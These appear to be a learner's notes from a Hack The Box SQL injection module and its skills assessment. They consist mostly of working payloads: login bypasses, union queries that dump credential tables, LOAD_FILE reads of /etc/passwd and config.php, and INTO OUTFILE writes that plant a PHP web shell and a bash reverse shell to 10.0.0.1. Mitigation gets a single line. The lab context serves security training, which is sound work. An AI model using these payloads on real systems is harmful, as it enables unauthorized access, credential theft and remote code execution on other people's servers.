


# Introduction

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection

SQLi is a type of injection vulnerability that allows a user to directly interact with a relational database by passing malicious input.

An easy way to test for SQLi attacks is seeing if a single quote payload ```'``` triggers a SQL error. If it does, then there's a vulnerability present. We leverage this with admin authentication, union SQLi, or more.

Relational Databases relate data to each other with foreign keys and relationships.

The four types of non-relational databases are key-based, document-based, wide column, and graph.

# Intro to MySQL

```mysql -u root -h docker.hackthebox.eu -P 3306 -p ```

Used to initiate remote mySQL connections.

# SQL Statements

Various types of DML and DDL to manipulate databases, like INSERT, SELECT, and DROP.

# Query results

Can be filtered with ORDER BY ASC/DESC, and so on. We can also use LIMIT to only select some responses.

```SELECT * FROM employees WHERE first_name LIKE 'Bar%' && hire_date LIKE '1990-01-01';```

# Operates

AND, OR, NAND, NOR, XOR when determining conditions.

```SELECT * FROM titles WHERE title != '%Engineer%' OR emp_no > 10000;```

# Intro to SQLi

SQLi occurs wqhen unsanitized input is passed to backend database. This can be used to pass arbitrary phrases, and inject code that isn't expected.

For example, we can use ```1'; DROP TABLE users;``` as a username to run a command to damage the table.



```In simple cases, the output of both the intended and the new query may be printed directly on the front end, and we can directly read it. This is known as In-band SQL injection, and it has two types: Union Based and Error Based.

With Union Based SQL injection, we may have to specify the exact location, 'i.e., column', which we can read, so the query will direct the output to be printed there. As for Error Based SQL injection, it is used when we can get the PHP or SQL errors in the front-end, and so we may intentionally cause an SQL error that returns the output of our query.

In more complicated cases, we may not get the output printed, so we may utilize SQL logic to retrieve the output character by character. This is known as Blind SQL injection, and it also has two types: Boolean Based and Time Based.

With Boolean Based SQL injection, we can use SQL conditional statements to control whether the page returns any output at all, 'i.e., original query response,' if our conditional statement returns true. As for Time Based SQL injections, we use SQL conditional statements that delay the page response if the conditional statement returns true using the Sleep() function.

Finally, in some cases, we may not have direct access to the output whatsoever, so we may have to direct the output to a remote location, 'i.e., DNS record,' and then attempt to retrieve it from there. This is known as Out-of-band SQL injection.

In this module, we will only be focusing on introducing SQL injections through learning about Union Based SQL injection.
```

# Discovery

We test if an application is vulnerable via a simple payload, such as 

```
'
"
#
;
)
```

If we're lucky, we can get a free win with

```
admin' or '1'='1'-- -
```

# Using Comments

We can use comments as a mean of auth bypass, like ```admin'--```, which would comment out the rest of the query, and only check for username==admin.

```admi2' OR id = 5)-- ```

We use an OR operator to get in as ID 5. We try to authenticate where the username is admi2 (does not exist), or where id = 5 (intended goal).

# Union Clause

The UNION statement is used to combine results from multiple SELECt statements.

```SELECT * FROM ports UNION SELECT * FROM ships;```

Union statement can only operate on select statements where the number of columns are the same (IE where both tables have 3 columns)

```SELECT * from products where product_id UNION SELECT username, 2, 3, 4 from passwords-- '```

Assumes that products has 4 columns, and passwords does not have that same number. IT would select usernames from passwords.

```SELECT * FROM departments UNION SELECT emp_no, birth_date FROM employees;```

Departments has 2 columns, and employees has like 5, so we only select 2 columns from there.

# Union Injection

The first goal is to test for vulnerabilities (simple payload).

The next goal is to detect the number of columns in the table.

```' order by 1-- -``` (SUCCESS)
```' order by 2-- -``` (SUCCESS)
```' order by 3-- -``` (SUCCESS)
```' order by 3-- -``` (FAIL)
When this errors out, go back to the highest number that didn't error out. Therefore, the table has 3 columns.

```cn' UNION select 1,2,3,4-- -```

```cn' UNION select 1,@@version,3,4-- -```

Note, we cannot place our injection at the beginning (the select 1), since it will not display. We have to displace the 2,3, or 4.

We test a union injection, and find out we have 4 columns in our target database.

```cn' UNION SELECT 1, user(), 3, 4-- -```

# Database Enumeration



There are three key things we want to enumerate:

all databases, all tables in a database, and each column in a table.

Most databases have an INFORMATION_SCHEMA database which contains metadata about other databases. We can use dot notation to reference outside databases.

```SELECT * FROM INFORMATION_SCHEMA.SCHEMATA;``` to enumerate everything

```SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;``` to enumerate databases names

We can use SQL injection to enuemrate via payloads

```cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -```

```cn' UNION select 1,database(),2,3-- -``` to enumerate current database.

```
TABLES

Before we dump data from the dev database, we need to get a list of the tables to query them with a SELECT statement. To find all tables within a database, we can use the TABLES table in the INFORMATION_SCHEMA Database.

The TABLES table contains information about all tables throughout the database. This table contains multiple columns, but we are interested in the TABLE_SCHEMA and TABLE_NAME columns. The TABLE_NAME column stores table names, while the TABLE_SCHEMA column points to the database each table belongs to. This can be done similarly to how we found the database names. For example, we can use the following payload to find the tables within the dev database:
```

To enumerate tables:
```
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```

```
COLUMNS

To dump the data of the credentials table, we first need to find the column names in the table, which can be found in the COLUMNS table in the INFORMATION_SCHEMA database. The COLUMNS table contains information about all columns present in all the databases. This helps us find the column names to query a table for. The COLUMN_NAME, TABLE_NAME, and TABLE_SCHEMA columns can be used to achieve this. As we did before, let us try this payload to find the column names in the credentials table:
```

To enumerate each column name, what table that column is in, and what database the table is in.
```
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```

A generic SELECT would look like 
```
SELECT * FROM dev.credentials
```
A SQLi union payload would look like 
```
cn' UNION select 1, username, password, 4 from dev.credentials-- -
```

```
cn' UNION select 1, username, password, 4 from ilfreight.users-- -
```

# Reading Files

Databases can be used to read files, given that they have the proper system privledges. 

We first enumerate our user

```
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```

If we're root, we might be the DBA.

```
SELECT super_priv FROM mysql.user
```

```
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```

```
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```

We can use a simple statement to read files.

```
SELECT LOAD_FILE('/etc/passwd');
```

```
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

We can try loading the search.php. We know apache2's default webroot is /var/www/html. We can select is like so

```
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```

NOTE: WE HAVE TO CHECK THE SOURCE CODE TO SEE THE IMPORTED PHP FILE. We look at the page's HTML. We find the file

```
<?php
include "config.php";
?>
```
Which we can read with
```
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -
```

# Writing Files


```
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```
To check if we have the ability to write files.

We can use a SELECT INTO OUTFILE statement to write stuff, ie

```
SELECT * from users INTO OUTFILE '/tmp/credentials';
```


Notice how we turn the select statement into a way of writing files.
```
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```
Writing files is close to a free win, since we can write a backdoor and give ourselves RCE.
```
cn' union select "",'<?php system($_REQUEST[cmd]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -

cn' union select "",'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1', "", "" into outfile '/var/www/html/shell.sh'-- -
```


# Mitigating SQL Injection

We can mitigate SQL injection by sanitizing user input of special characters.

# Skills Assessment

Our trivial payloads don't work. So we go to https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/Intruder/Auth_Bypass.txt

Boot up burp, capture a request, go to intruder, and use this list as the set of payloads.

```
admin' or '1'='1'-- -
```

We needed a comment added to the end of a traditional payload. This brings us to a payroll information.

Now, we need to figure out how many columns exist.

```
' order by 1-- -
```
Incrementing by one each time, 
```
' order by 6-- -
```
Gives us an error. Therfore, there are 5 columns present in the table we are querying.

```
cn' UNION SELECT 1, 2, 3, 4, 5-- -
```

We test a simple UNION injection query. It works. Now, let's think about what we want to do. We need to get RCE. The easiest way of doing that is seeing if we can inject a PHP reverse shell by writing a file via SQL.

```
cn' union select "",'<?php system($_REQUEST[cmd]); ?>', "", "", "" into outfile '/var/www/html/shell.php'-- -
```
Gives us a permission denied error. However, we're trying to write to the web root. We're in /dashboard/. Let's try  writing to that.

```
cn' union select "",'<?php system($_REQUEST[cmd]); ?>', "", "", "" into outfile '/var/www/html/dashboard/shell.php'-- -
```

That works, and shell.php is uploaded. It successfully works, and we have RCE. Now, we need to read a flag at the file system root.

```ls /``` enumerates the root of the filesystem, where we find a flag.txt we can cat with ```flag_cae1dadcd174.txt```

The login page was tricky. Burp Intruder did not work for me. My basic payload did not work, because it needed a comment. The simplest solutions are usually the correct ones - try basic payloads before dumping 200 burp intruder requests.